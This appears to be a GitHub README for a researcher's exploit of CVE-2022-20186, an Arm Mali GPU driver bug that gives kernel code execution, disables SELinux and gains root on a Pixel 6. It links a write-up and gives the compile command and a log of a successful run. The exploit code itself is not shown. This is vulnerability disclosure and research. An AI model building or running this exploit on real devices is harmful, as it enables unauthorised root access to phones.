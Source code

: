 ## Exploit for CVE-2022-20186

The write up can be found [here](https://github.blog/2022-07-27-corrupting-memory-without-memory-corruption/). This is a bug in the Arm Mali kernel driver that I reported in January 2022. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 6 and supports patch levels from Novmember 2021 to Feburary 2022. It is easy to add support for other firmware by changing a few image offsets. For reference, I used the following command to compile with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang mali_alias.c -o mali_alias
```

The exploit rarely fails and can be retry without crashing the device. If successful, it should disable SELinux and gain root.

```
oriole:/ $ /data/local/tmp/mali_alias                                                                                             
fingerprint: google/oriole/oriole:12/SQ1D.220205.004/8151327:user/release-keys
tracking page 0x6ff794e000
drain 0x6d5b200000
gpu_va[0] 6ff6698000
gpu_va[1] 6ff6695000
alias 0x6ff6693000
overwrite addr : 6ff370051c 51c
overwrite addr : 6de310051c 51c
overwrite addr : 6d5f30051c 51c
overwrite addr : 6d5f10051c 51c
overwrite addr : 6d5f30051c 51c
overwrite addr : 6d5f10051c 51c
result 50
overwrite addr : 6ff370051c 51c
overwrite addr : 6de310051c 51c
overwrite addr : 6d5f30051c 51c
overwrite addr : 6d5f10051c 51c
overwrite addr : 6d5f30051c 51c
overwrite addr : 6d5f10051c 51c
result 50
oriole:/ # 
```
